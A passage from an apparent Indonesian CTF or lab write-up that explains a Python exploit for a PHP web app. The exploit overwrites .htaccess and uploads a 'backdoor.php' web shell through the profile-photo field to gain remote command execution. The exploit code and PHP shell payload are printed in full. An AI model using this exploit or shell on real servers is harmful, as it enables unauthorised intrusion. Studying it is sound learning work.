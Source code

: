 ```py
    csrftoken_ = account_tree.xpath("//input[@name='users[_csrf_token]']/@value")
    req(userid, username, csrftoken_, EMAIL, HOSTNAME)
    get_file = session_requests.get(HOSTNAME + 'index.php/myAccount')
    final_tree = html.fromstring(get_file.content)
    backdoor = requests.get(HOSTNAME + "uploads/users/")
    count = 0
    dateStamp = "1970-01-01 00:00"
    backdoorFile = ""
    for line in backdoor.text.split("\n"):
        count = count + 1
        if "backdoor.php" in str(line):
            try:
                start = "\"right\""
                end = " </td"
                line = str(line)
                dateStampNew = line[line.index(start)+8:line.index(end)]
                if (dateStampNew > dateStamp):
                    dateStamp = dateStampNew
                    print("The DateStamp is " + dateStamp)
                    backdoorFile = line[line.index("href")+6:line.index("php")+3]
            except:
                print("Exception occurred")
                continue
        #print(backdoor)
    print('Backdoor uploaded at - > ' + HOSTNAME + 'uploads/users/' + backdoorFile + '?cmd=whoami')
```
dalam variable `url` sudah dipastikan bahwa POST request akan dikirimkan ke `/index.php/login` dengan banyak `payload` untuk autentikasi seperti password dan username.

> berarti saya harus mendapatkan credentialsnya terlebih dahulu

lalu, kalau sudah mendapatkan `credentials` akan dilanjutkan untuk mengirim `session requests`. karena saya ingin mencoba manual untuk memahami konsep kode tersebut berjalan (bukan karena tidak tahu cara memakai automasi) dengan sempurna sampai ke titik variable `get_file` yang merujuk pada url `/index.php/myAccount` untuk melakukan injeksi seperti variable `backdoor` jelaskan. dalam fungsi `req` dengan beberapa parameternya yaitu `userid`, `username`, `csrftoken_`, `EMAIL` dan `HOSTNAME` ada hal menarik yang perlu dilihat.
```py
def req(userid, username, csrftoken_, EMAIL, HOSTNAME):
    request_1 = multifrm(userid, username, csrftoken_, EMAIL, HOSTNAME, '.htaccess')
    new = session_requests.post(HOSTNAME + 'index.php/myAccount/update', files=request_1)
    request_2 = multifrm(userid, username, csrftoken_, EMAIL, HOSTNAME, '../.htaccess')
    new1 = session_requests.post(HOSTNAME + 'index.php/myAccount/update', files=request_2)
    request_3 = {
        'sf_method': (None, 'put'),
        'users[id]': (None, userid[-1]),
        'users[photo_preview]': (None, ''),
        'users[_csrf_token]': (None, csrftoken_[-1]),
        'users[name]': (None, username[-1]),
        'users[new_password]': (None, ''),
        'users[email]': (None, EMAIL),
        'extra_fields[9]': (None, ''),
        'users[photo]': ('backdoor.php', '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>', 'application/octet-stream'),
        }
    upload_req = session_requests.post(HOSTNAME + 'index.php/myAccount/update', files=request_3)
```
dalam array `request_3` ada `users[photo]` yang akan mengirimkan request dengan format php yang berisikan `RCE` untuk disalahgunakan. dengan begitu bisa disimpulkan dalam variable `upload_req` akan mengirimkan arguments `files` yaitu `requests_3` ke `/index.php/myAccount/update` lalu RCE akan terbentuk.
